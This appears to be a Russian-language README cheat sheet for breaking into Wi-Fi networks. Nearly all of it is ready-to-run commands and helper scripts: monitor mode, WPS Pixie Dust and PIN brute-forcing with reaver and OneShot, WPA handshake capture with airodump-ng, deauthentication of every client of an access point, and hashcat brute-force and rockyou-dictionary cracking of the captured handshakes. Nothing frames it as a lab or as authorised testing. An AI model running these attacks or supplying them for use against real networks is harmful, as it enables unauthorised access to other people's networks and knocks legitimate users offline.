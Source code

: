 ### Получение HandShake с помощью скриптов:
Перевод интерфейса в режим монитора. Аргументы -> device
```
./1_mon.sh wlan1
```
Получение списка доступных сетей. Аргументы -> device
```
./2_all_dump.sh wlan1
```
Ожидание рукопожатия. Аргументы -> device, channel, bssid, ssid
```
./3_dump.sh wlan1 7 00:11:22:33:44:55 SSID_NAME
```
Деаутентификация всех клиентов. Аргументы -> device, bssid
```
./4_kill.sh wlan1 00:11:22:33:44:55
```

### Перевод адаптера в режим монитора:
Показать wifi адаптеры
```
iw dev
```
Выключить интерфейс
```
ip link set wlan1 down
```
Перевод интерфейса в режим монитора
```
iw wlan1 set monitor control
```
Включить интерфейс
```
ip link set wlan1 up
```

### WPS 1 вариант:
Получение списка точек с включённым WPS
```
sudo wash -i wlan1
```
Мягкий режим (Pixie Dust)
```
sudo reaver -i wlan1 -b 00:11:22:33:44:55 -K -vv -L -N -d 15 -T .5 -r 3:15
```
Жёсткий режим, может вылететь таймаут (Pixie Dust)
```
sudo reaver -i wlan1 -b 00:11:22:33:44:55 -K
```
Подбор пароля при известном пине
```
sudo reaver -i wlan1 -b 00:11:22:33:44:55 -p 12345678
```

### WPS 2 вариант:
Получение списка точек с включённым WPS
```
sudo wash -i wlan1
```
Pixie Dust
```
sudo ./oneshot.py -i wlan1 -b 00:11:22:33:44:55 -K
```

### Получение HandShake:
Получение списка доступных сетей
```
sudo airodump-ng --manufacturer --uptime --wps wlan1
```
Ожидание рукопожатия и сохранение HandShake в файл POINT_NAME (без расширения)
```
sudo airodump-ng -c 7 --bssid 00:11:22:33:44:55 -w SSID_NAME wlan1
```
Деаутентификация всех клиентов точки
```
sudo aireplay-ng -0 0 -a 00:11:22:33:44:55 wlan1
```

### Расшифровка HandShake с помощью HashCat влоб:
Конверт файла
```
cap2hccapx.bin SSID_NAME-01.cap SSID_NAME.hccapx
```
Брутфорс 8 цифр
```
sudo hashcat -m 2500 -a 3 SSID_NAME.hccapx ?d?d?d?d?d?d?d?d
```
Брутфорс 8 букв
```
sudo hashcat -m 2500 -a 3 SSID_NAME.hccapx ?l?l?l?l?l?l?l?l
```

### Расшифровка HandShake с помощью HashCat по словарю:
Очистка словаря от лишних слов
```
cat rockyou.txt | sort | uniq | pw-inspector -m 8 -M 63 > newrockyou.txt
```
Подбор пароля по словарю
```
sudo hashcat --force --hwmon-temp-abort=100 -m 2500 -D 1,2 -a 0 SSID_NAME.hccapx newrockyou.txt
```

### Установки
```
sudo apt install -y python3 wpasupplicant iw wget git reaver pixiewps

git clone https://github.com/drygdryg/OneShot.git

git clone https://github.com/hashcat/hashcat-utils.git
cd src
sudo make
export PATH=$PATH:~/hashcat-utils/src

git clone https://github.com/hashcat/hashcat.git
sudo make
sudo make install

git clone git://git.kali.org/packages/wordlists.git
```
